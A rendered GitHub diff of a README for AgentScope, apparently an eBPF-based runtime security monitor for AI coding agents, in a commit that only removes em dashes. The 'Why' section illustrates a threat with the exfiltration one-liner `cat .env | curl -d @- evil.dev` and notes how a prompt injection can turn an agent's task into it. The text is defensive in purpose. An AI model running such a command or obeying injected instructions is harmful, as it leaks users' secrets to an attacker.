

Before and after one commit to sambai-dev/agentscope, a Markdown page: README.md, the part around one of its changes. Drawn GitHub-style; grey boxes are pictures that could not be loaded.

Commit message:
docs: remove em dashes from README

```diff
--- a/README.md
+++ b/README.md
@@ -1,12 +1,12 @@
 # AgentScope
 
-**Kernel-grounded runtime security for AI coding agents.** AgentScope watches what your autonomous agents actually *do* — every exec, file open and outbound connection — using eBPF tracepoints on Linux, evaluates each syscall-level event against a declarative policy, and streams violations to a live dashboard. A deterministic simulated-event source keeps the whole demo working on Windows and macOS too.
+**Kernel-grounded runtime security for AI coding agents.** AgentScope watches what your autonomous agents actually *do*: every exec, file open, and outbound connection. It uses eBPF tracepoints on Linux, evaluates each syscall-level event against a declarative policy, and streams violations to a live dashboard. A deterministic simulated-event source keeps the whole demo working on Windows and macOS too.
 
 [![CI](https://github.com/sambai-dev/agentscope/actions/workflows/ci.yml/badge.svg)](https://github.com/sambai-dev/agentscope/actions/workflows/ci.yml)
 
 ## Why
 
-Autonomous coding agents (Codex, Claude Code, CI workers) run arbitrary installs, arbitrary network calls and arbitrary file reads — with your tokens in the environment. `npm install` executes postinstall scripts from strangers; a prompt injection can turn "fix this bug" into `cat .env | curl -d @- evil.dev`; a compromised tool binary can quietly download payloads. Application-layer logs are whatever the process says they are. Orgs need an **audit trail grounded in the kernel**: out-of-band capture the agent cannot forge, plus enforcement hooks it cannot talk its way out of.
+Autonomous coding agents (Codex, Claude Code, CI workers) run arbitrary installs, arbitrary network calls, and arbitrary file reads while your tokens are in the environment. `npm install` executes postinstall scripts from strangers; a prompt injection can turn "fix this bug" into `cat .env | curl -d @- evil.dev`; a compromised tool binary can quietly download payloads. Application-layer logs are whatever the process says they are. Orgs need an **audit trail grounded in the kernel**: out-of-band capture the agent cannot forge, plus enforcement hooks it cannot talk its way out of.
 
 AgentScope captures:
 
```
Also changed, not shown: other parts of README.md (+7 -7 lines).
